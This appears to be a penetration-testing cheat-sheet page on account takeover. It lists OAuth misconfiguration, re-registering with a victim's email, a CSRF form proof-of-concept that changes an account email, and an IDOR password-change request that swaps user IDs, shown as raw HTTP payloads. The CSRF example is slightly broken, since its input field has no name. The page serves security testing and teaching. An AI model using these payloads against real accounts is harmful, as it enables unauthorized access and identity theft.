 # Account Takeover

### ntroduction



Account Takeover (known as ATO) is a type of identity theft where a bad actor gains unauthorized access to an account belonging to someone else.

### How to exploit



1. Using OAuth Misconfiguration
   * Victim has a account in evil.com
   * Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   * Attacker changed his/her email to victim email.
   * When the victim try to create an account on evil.com, it says the email already exists.
2.  Try re-sign up using same email

    ```
    POST /newaccount HTTP/1.1
    ...
    email=victim@mail.com&password=1234
    ```

    After sign up using victim email, try signup again but using different password

    ```
    POST /newaccount HTTP/1.1
    ...
    email=victim@mail.com&password=hacked
    ```
3.  via CSRF

    * Create an account as an attacker and fill all the form, check your info in the Account Detail.
    * Change the email and capture the request, then created a CSRF Exploit.
    * The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@\*\*\*\*\*\*\*.com and submitted a request in the victim’s account.

    ```
    <html>
    <body>
       <form action="https://evil.com/user/change-email" method="POST">
          <input type="hidden" value="victim@gmail.com"/>
          <input type="submit" value="Submit Request">
       </form>
    </body>
    </html>
    ```
4.  Chaining with IDOR, for example

    ```
    POST /changepassword.php HTTP/1.1
    Host: site.com
    ...
    userid=500&password=heked123
    ```

    500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID
5. No Rate Limit on 2FA

